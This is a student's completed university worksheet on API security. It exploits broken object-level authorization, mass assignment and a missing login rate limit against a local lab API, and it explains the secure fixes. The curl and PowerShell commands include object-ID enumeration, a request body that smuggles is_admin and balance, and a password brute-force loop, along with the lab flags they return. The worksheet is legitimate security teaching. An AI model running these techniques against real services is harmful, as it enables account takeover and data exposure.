










# Worksheet 10 — API Security (3 hrs)

> **Course:** Software Security (KOSEN69) · Week 10
> **Aligned:** OWASP API Security Top 10:2023 — API1 BOLA · API3 Broken Object Property Level Auth (Mass Assignment) · API4 Unrestricted Resource Consumption
> **Signature game:** 🥷 crAPI Raid
>
> **Ethics note:** Run exploits **only** against the lab targets shipped here (`vulnerable_api.py` on `:8080`) or your own OWASP crAPI instance. Never test BOLA, mass assignment, or brute-force against systems you do not own or are not explicitly authorized to test.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
|  Wilasinee Mangkorn    |  6631503039       |  10/10/2026    |       |

### AI Use Disclosure

I used ChatGPT to help explain API security concepts, review lab code, draft explanations, and generate test cases.

I executed commands in my own Docker environment, inspected actual HTTP responses, identified authentication weaknesses in the recommended BOLA remediation approach, and tested the patched version.

I analyzed the results and provided explanations based on my understanding of the lab.

## Part 2 — Lecture Questions

1. Define **BOLA (API1:2023)**. Why is it the #1 API risk, and why can't a WAF reliably stop it?

**Answer:**

BOLA (Broken Object Level Authorization) is a vulnerability that allows users to access other users' data without proper permission checks.

It is the #1 API risk because APIs often use object IDs to access sensitive data, and missing authorization checks can expose that data. A WAF (Web Application Firewall) cannot reliably prevent BOLA because the requests look normal, and the WAF may not know who owns each object.

2. What is **mass assignment / broken object property level authorization (API3:2023)**? Contrast a blocklist vs. an allow-list of bindable fields.

**Answer:**

Mass assignment occurs when an API accepts user-provided fields without checking which fields users are allowed to modify. For example, an attacker could set `is_admin=true` or change their `balance`.

- **Blocklist:** Blocks specific dangerous fields but may miss new or unexpected fields.
- **Allow-list:** Only accepts explicitly approved fields, making it safer.

In `solution_api.py`, the allow-list only accepts `username` and `password`, while the server controls sensitive fields.

3. **API4:2023** is unrestricted resource consumption. Give two distinct impacts (security and availability) of an unthrottled `/api/login`.

**Answer:**

An unthrottled login API allows attackers to send unlimited login requests.

1. **Security impact:** Attackers can repeatedly guess passwords through brute-force attacks, potentially gaining unauthorized access to user accounts.
2. **Availability impact:** Too many requests can overload the server, slowing down or disrupting the service for legitimate users.

Rate limiting helps prevent these problems by restricting the number of requests within a specific time period.

4. In `vulnerable_api.py`, `current_user()` trusts the `X-User-Id` header. Why is a client-supplied header NOT authentication, and what should replace it?

**Answer:**

A client-supplied header is not secure authentication because users can change or fake the `X-User-Id` value to impersonate another user.

It should be replaced with secure authentication, such as a server-managed session or a properly verified JWT token. The server must verify the user's identity instead of trusting information provided directly by the client.

5. Why does object-level authorization have to be checked **per request, per object** rather than once at login?

**Answer:**

Object-level authorization must be checked for every request because being logged in does not mean a user can access every object in the system.

For example, Alice should be able to read her own orders but not Bob's or Carol's orders. Checking authorization for each requested object prevents unauthorized access even when a user is already authenticated.

## Part 3 — Hands-on Lab (145 min)

**Learning goals:** Exploit BOLA, mass assignment, and a missing rate limit against a live API; then read the secure version and explain each fix.

**Prerequisites:** Docker + Docker Compose, `curl`. (Optional bonus: cloned OWASP crAPI.)

**Environment setup**
```bash
cd labs/week10-api-security
docker compose up         # INSECURE API on :8080, SECURE API on :8081
# Seeded users: alice(id 1) bob(id 2) carol(id 3, admin, balance 9999)
```

**What to submit per task:** the exact command(s) + raw response/HTTP status, a screenshot, and a 2–3 sentence mitigation note mapping the bug to its OWASP API id.

### Task 0 — Onboarding (15 min)
Confirm both APIs respond: `curl http://localhost:8080/` and `curl http://localhost:8081/`. Note which port is insecure. Record the three seeded users.
**Deliverable:** both root responses + the user table.

#### Commands Used

**Windows PowerShell:**

```powershell
curl.exe -i http://localhost:8080/
curl.exe -i http://localhost:8081/
```
### Results

**Insecure API (Port 8080)**

```text
HTTP/1.1 200 OK
Week 10 INSECURE API — see attack.md
```

**Secure API (Port 8081)**

```text
HTTP/1.1 200 OK
Week 10 SECURE API
```

### Seeded Users

| ID | Username | Admin | Balance |
|----|----------|-------|---------|
| 1 | alice | False | 100 |
| 2 | bob | False | 50 |
| 3 | carol | True | 9999 |

### Explanation

Both APIs are running successfully. Port 8080 is the insecure API used for vulnerability testing, while port 8081 is the secure API used to compare security protections. Both root endpoints responded successfully.




### Task 1 — BOLA: read another user's orders (35 min)
**Goal:** Read carol's (admin) orders without being carol — API1:2023.
**Steps:**
1. `curl http://localhost:8080/api/users/3/orders` — note you receive the "Server rack" order with no auth.
2. Iterate the id: `curl http://localhost:8080/api/users/2/orders`.
3. On the secure API observe the ladder: `curl -i http://localhost:8081/api/users/3/orders` (401), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders` (403), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders` (200).
**Deliverable:** the leaked order JSON + the 401/403/200 transcript + mitigation note.

#### Commands Used

**Insecure API (Port 8080)**

```powershell
curl.exe -i http://localhost:8080/api/users/3/orders
curl.exe -i http://localhost:8080/api/users/2/orders
```

**Secure API (Port 8081)**

```powershell
curl.exe -i http://localhost:8081/api/users/3/orders
curl.exe -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders
curl.exe -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders
```
#### Results

| Test | API | HTTP Status | Result |
|------|-----|-------------|--------|
| Read Carol's orders without authentication | Insecure | 200 OK | Orders and lab flag exposed |
| Read Bob's orders without authentication | Insecure | 200 OK | Mouse order exposed |
| Read Carol's orders without authentication | Secure | 401 Unauthorized | Authentication required |
| Alice reads Carol's orders | Secure | 403 Forbidden | Access denied |
| Alice reads her own orders | Secure | 200 OK | Access granted |

**Insecure API — Carol's Orders**

```json
[
  {
    "item": "Server rack",
    "order_id": "C-1",
    "total": 5000
  },
  {
    "item": "FLAG{bola_demo}",
    "order_id": "C-FLAG",
    "total": 0
  }
]
```

**Insecure API — Bob's Orders**

```json
[
  {
    "item": "Mouse",
    "order_id": "B-1",
    "total": 15
  }
]
```

**Secure API — No Authentication**

```text
HTTP/1.1 401 UNAUTHORIZED
{"error":"authentication required"}
```

**Secure API — Alice Accessing Carol's Orders**

```text
HTTP/1.1 403 FORBIDDEN
{"error":"forbidden"}
```

**Secure API — Alice Accessing Her Own Orders**

```text
HTTP/1.1 200 OK
[{"item":"Keyboard","order_id":"A-1","total":30}]
```

#### 3. Vulnerability Explanation

The insecure API allows anyone to access other users' orders by changing the user ID in the URL. This happens because the API does not check authentication or object ownership before returning the requested data.

#### 4. Security Fix and Mitigation

In `solution_api.py`, the API checks the current user before returning orders.

```python
caller = current_user()
if caller is None:
    return jsonify({"error": "authentication required"}), 401

if caller["id"] != uid and not caller["is_admin"]:
    return jsonify({"error": "forbidden"}), 403
```

The ownership check prevents users from accessing orders that do not belong to them, unless they are administrators. In the lab, unauthorized requests return `401` or `403`, while authorized requests return `200`.

**Limitation:** The lab still trusts the client-controlled `X-User-Id` header, which can be spoofed. A production API should use verified authentication tokens or secure sessions.

#### 5. Evidence

**Insecure API:**



**Secure API:**




### Task 2 — Mass assignment: self-promote to admin (30 min)
**Goal:** Smuggle `is_admin` + `balance` into user creation — API3:2023.
**Steps:**
1. `curl -X POST http://localhost:8080/api/users -H "Content-Type: application/json" -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'`
2. Confirm the response echoes `"is_admin": true, "balance": 1000000`.
3. Repeat against `:8081` and confirm the smuggled fields are forced to `is_admin:false, balance:0`.
**Deliverable:** both responses side by side + mitigation note (allow-list in `solution_api.py`).


### Task 2 — Mass Assignment: Self-Promote to Admin

**OWASP ID:** API3:2023 — Broken Object Property Level Authorization (Mass Assignment)

**Objective:** To test whether a user can set unauthorized fields such as `is_admin` and `balance` when creating a new account.

#### Commands Used

**Prepare JSON Request Body:**

```powershell
Set-Content -Path .\task2-body.json -Value '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}' -Encoding ascii
```

**Insecure API (Port 8080):**

```powershell
curl.exe -i -X POST http://localhost:8080/api/users -H "Content-Type: application/json" --data-binary "@task2-body.json"
```

**Secure API (Port 8081):**

```powershell
curl.exe -i -X POST http://localhost:8081/api/users -H "Content-Type: application/json" --data-binary "@task2-body.json"
```

#### Results

**Insecure API Response:**

```text
HTTP/1.1 201 CREATED
```

```json
{
  "balance": 1000000,
  "flag": "FLAG{massassign_demo}",
  "id": 4,
  "is_admin": true,
  "password": "x",
  "username": "mallory"
}
```

**Secure API Response:**

```text
HTTP/1.1 201 CREATED
```

```json
{
  "balance": 0,
  "id": 4,
  "is_admin": false,
  "password": "x",
  "username": "mallory"
}
```

**Comparison:**

| Test | Insecure API | Secure API |
|------|--------------|------------|
| HTTP Status | 201 Created | 201 Created |
| is_admin | true | false |
| balance | 1000000 | 0 |
| Admin privilege granted | Yes | No |
| Lab flag exposed | Yes | No |

#### Vulnerability Explanation

The insecure API uses `user.update(body)`, which accepts all fields provided by the client without checking permissions. This allows users to set sensitive fields like `is_admin` and `balance`, giving themselves admin privileges and changing their balance.

#### Security Fix and Mitigation

In `solution_api.py`, the API uses an allow-list to accept only approved fields from the client.

```python
ALLOWED_CREATE_FIELDS = {"username", "password"}

user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}

user.update({"id": _next_id, "balance": 0, "is_admin": False})
```

The allow-list prevents clients from setting sensitive fields directly. The server controls the user ID, balance, and admin status. This prevents mass assignment and unauthorized privilege escalation through the user creation endpoint.

**Limitation:** Other endpoints must also validate allowed fields. The API also returns the plaintext password in its response, which should be avoided in a production system.

#### Evidence



### Task 3 — Unrestricted resource consumption: brute-force login (25 min)
**Goal:** Show `/api/login` has no throttle — API4:2023.
**Steps:**
1. Run the brute-force loop from `attack.md` against `:8080` (guesses incl. `alice123`) — all attempts processed.
2. On `:8081` loop 7 times: `for i in $(seq 1 7); do curl -s -o /dev/null -w "%{http_code}\n" -X POST http://localhost:8081/api/login -H "Content-Type: application/json" -d '{"username":"alice","password":"wrong"}'; done`
3. Confirm the 6th/7th attempt returns `429`.
**Deliverable:** the `401 401 401 401 401 429 429` sequence + mitigation note.


#### Commands Used

**Insecure API (Port 8080):**

```powershell
foreach ($pw in @("wrong1","wrong2","wrong3","alice123")) {
    $body = @{ username = "alice"; password = $pw } | ConvertTo-Json -Compress
    Set-Content -Path .\task3-login.json -Value $body -Encoding ascii
    Write-Host "Trying password: $pw"
    curl.exe -s -w "\nHTTP Status: %{http_code}\n" -X POST http://localhost:8080/api/login -H "Content-Type: application/json" --data-binary "@task3-login.json"
}
```

**Secure API (Port 8081):**

```powershell
Set-Content -Path .\task3-login.json -Value '{"username":"alice","password":"wrong"}' -Encoding ascii

for ($i = 1; $i -le 7; $i++) {
    Write-Host "Attempt $i :"
    curl.exe -s -o NUL -w "%{http_code}\n" -X POST http://localhost:8081/api/login -H "Content-Type: application/json" --data-binary "@task3-login.json"
}
```

#### Results

**Insecure API Response (Port 8080):**

```text
Trying password: wrong1
{"ok":false}
HTTP Status: 401

Trying password: wrong2
{"ok":false}
HTTP Status: 401

Trying password: wrong3
{"ok":false}
HTTP Status: 401

Trying password: alice123
{"is_admin":false,"ok":true,"user_id":1}
HTTP Status: 200
```

**Secure API Response (Port 8081):**

```text
Attempt 1 :
401
Attempt 2 :
401
Attempt 3 :
401
Attempt 4 :
401
Attempt 5 :
401
Attempt 6 :
429
Attempt 7 :
429
```

**Comparison:**

| Test | Insecure API | Secure API |
|------|--------------|------------|
| Endpoint | /api/login | /api/login |
| Rate Limiting | No | Yes |
| Request Limit | No configured limit | 5 requests / 60 seconds / IP |
| Failed Login | 401 Unauthorized | 401 Unauthorized |
| Exceed Rate Limit | No 429 protection | 429 Too Many Requests |
| Protection Against Brute Force | No throttling | Per-IP throttling |

#### Vulnerability Explanation

The insecure API does not have rate limiting, so users can repeatedly try different passwords without being blocked. In my test, all four login attempts were processed, and the last attempt succeeded with the correct password. This can increase the risk of brute-force attacks and server overload.

#### Security Fix and Mitigation

In `solution_api.py`, the API uses a per-IP rate limiter.

```python
RATE_LIMIT = 5
RATE_WINDOW = 60

def rate_limited(ip):
    now = time.time()
    _attempts[ip] = [
        t for t in _attempts[ip]
        if now - t < RATE_WINDOW
    ]
    if len(_attempts[ip]) >= RATE_LIMIT:
        return True
    _attempts[ip].append(now)
    return False
```

The login endpoint checks the rate limit before processing credentials.

```python
if rate_limited(request.remote_addr or "unknown"):
    return jsonify({"error": "too many requests"}), 429
```

The secure API allows a maximum of five login attempts per IP within 60 seconds. Additional requests are rejected with HTTP 429, reducing the risk of repeated password guessing and excessive resource consumption.

**Limitation:** Per-IP rate limiting alone cannot completely prevent distributed brute-force attacks. The rate limiter also stores attempts in memory, so a production system should use shared storage and additional security controls.

#### Evidence

**Insecure API:**



**Secure API:**



### Task 4 — Bonus: crAPI Raid (optional, 20 min)
Against your own OWASP crAPI instance (`git clone https://github.com/OWASP/crAPI.git`), capture one BOLA or mass-assignment flag.
**Deliverable:** flag + endpoint + which API Top 10 id it maps to.

**OWASP ID:** API1:2023 — Broken Object Level Authorization (BOLA)

**Objective:** To demonstrate a BOLA vulnerability by accessing another user's vehicle location in my local OWASP crAPI instance.

#### 1. Environment Setup

**Application:** OWASP crAPI

**URL:** http://localhost:8888

**Setup Commands:**

```powershell
git clone --depth 1 --branch main https://github.com/OWASP/crAPI.git
cd C:\Users\ASUS\crAPI\deploy\docker
docker compose pull
docker compose -f docker-compose.yml --compatibility up -d
docker compose ps
```

